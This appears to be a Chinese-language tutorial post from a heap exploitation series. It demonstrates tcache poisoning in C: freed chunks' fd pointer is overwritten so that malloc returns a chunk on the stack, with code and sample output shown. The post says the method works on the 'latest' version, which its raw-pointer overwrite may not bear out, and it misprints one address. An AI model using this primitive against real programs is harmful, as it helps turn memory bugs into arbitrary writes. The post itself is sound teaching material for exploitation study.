 ```yaml
---
title: "Tcache Poision"
date: 2025-04-09
series: ["Heap Exploitation"]
series_order: 10
---
```


|||
|-|-|
|版本|latest|
|效果|可以構造一個allocated chunk在任意writable address上|

### 先malloc兩個以上的tcache

```c
unsigned long int *ptr0, *ptr1;
int target;

ptr0 = malloc(0x10);
ptr1 = malloc(0x10);
target = 0xdead;

printf("chunk 1: %p\n", ptr0);
printf("chunk 2: %p\n", ptr1);
printf("int:  %p\n\n", &target);
```

output

```txt
chunk 1: 0x26122260
chunk 2: 0x26122280
int:  0x7ffc6c21674
```

![alt text](image.png)

### free

```c
free(ptr0); //tcache -> Chunk0
free(ptr1); //tcache -> Chunk1 -> Chunk0
```

### 竄改fd成target

```c
*ptr1 = (unsigned long long)&target; //tcache -> target
```

![alt text](image-1.png)

### malloc

這時候應該能看到malloc了一塊heap到stack上了

```c
unsigned long int *ptr2, *ptr3;
ptr2 = malloc(0x10);
ptr3 = malloc(0x10);
printf("Chunk 3: %p contains: %lx\n", ptr2, *ptr2); //chunk1, tcache -> target
printf("Chunk 4: %p contains: %lx\n", ptr3, *ptr3); //chunk0, tcache -> null
```

```txt
Chunk 3: 0x26122280 contains: 7ffc6c216740
Chunk 4: 0x7ffc6c216740 contains: dead
```
